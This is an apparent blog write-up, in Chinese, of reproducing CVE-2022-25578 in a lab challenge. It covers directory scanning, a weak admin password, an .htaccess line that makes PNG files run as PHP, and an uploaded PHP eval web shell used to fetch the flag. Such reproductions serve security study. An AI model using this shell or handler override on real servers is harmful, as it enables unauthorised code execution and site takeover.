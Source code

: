 ```yaml
---
title: CVE-2022-25578
subtitle:
date: 2025-03-14T12:16:19+08:00
slug: 0780980
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/57334f4d94c8334a885d95809716428d.png)
访问但是没有文件上传点

![](images/b8e41c4da3306e1ee4cc461c4318c605.png)
扫描目录查看是否有上传处

``` Shell
dirsearch -u "http://eci-2ze15m1vb2h75tqfcloq.cloudeci1.ichunqiu.com/"
```



![](images/c44cc10356471db99223363d3d7e50b0.png)
访问/admin，看到网页

![](images/2c01c959e0a1a35350a02e607aac0c37.png)
弱口令爆破 admin/tao，登陆成功，根据题目提示找到.htaccess文件，进行修改，添加代码使其能够对.png文件用php进行解析

```
AddType application/x-httpd-php .png
```



![](images/d67e01147922d013307c74eda6e5c973.png)
在文章上传找到文件上传处

```
<?php @eval($_POST['t1ng']);?>
```



![](images/dbf28764040eeb350e7e379efe51c71a.png)
找到图片路径，蚁剑连接



![](images/670928c8efc9ad2752807bc18b5370ad.png)
找到flag

![](images/b8e45219a5712ed5f243b4170ae1bd30.png)
